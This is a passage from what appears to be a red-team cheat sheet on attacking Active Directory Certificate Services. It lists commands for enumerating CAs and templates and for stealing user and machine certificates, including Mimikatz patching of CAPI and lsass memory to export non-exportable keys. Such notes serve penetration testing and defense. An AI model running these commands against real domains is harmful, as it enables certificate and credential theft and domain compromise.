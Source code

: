 Get list of template names:

```
PS > $CATemplateNames = Get-ADObject $CAs[0].DistinguishedName -Properties certificatetemplates | Select-Object -ExpandProperty certificatetemplates
PS > $CATemplateNames
Or
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(objectCategory=pKIEnrollmentService)' --base 'CN=Configuration,DC=megacorp,DC=local' --attrs dn,dnshostname
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(distinguishedName=CN=CA01,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=megacorp,DC=local)' --base 'CN=Configuration,DC=megacorp,DC=local' --attrs certificateTemplates
```

Enumerate AD Enterprise CAs with certutil from a domain-joined machine:

```
Cmd > certutil.exe -config - -ping
Cmd > certutil.exe -TCAInfo [-v]
```




## Hunt for Certificates



### Export Certificates (THEFT1)

Export a certificate from user's context.

With certmgr:

* Run → `certmgr.msc` → Action → All Tasks → Export ...

With PowerShell:

```
PS > Export-PfxCertificate -Password (Read-Host -AsSecureString -Prompt 'Password') -Cert (Get-Item -Path Cert:\LocalMachine\My\<CERT_THUMBPRINT>) -FilePath cert.pfx -Verbose
```

With [CertStealer](https://github.com/TheWover/CertStealer):

```
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` (to patch CAPI in current process) or `crypto::cng` (to patch `lsass.exe` memory):

```
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```



### DPAPI User Keys (THEFT2)

